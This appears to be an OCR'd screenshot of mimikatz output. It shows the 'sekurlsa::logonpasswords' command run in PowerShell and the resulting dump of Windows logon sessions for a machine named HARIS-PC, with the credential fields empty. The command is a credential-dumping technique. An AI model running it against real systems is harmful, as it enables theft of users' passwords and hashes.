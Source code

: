 mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 29/04/2021 03:09:23
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : HARIS-PC$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 29/04/2021 03:09:23
SID               : S-1-5-20
	msv :	
	tspkg :	
	wdigest :	
	 * Username : HARIS-PC$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	 * Username : haris-pc$
	 * Domain   : WORKGROUP
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 41407 (00000000:0000a1bf)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 29/04/2021 03:09:23
SID               : 
	msv :	
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	
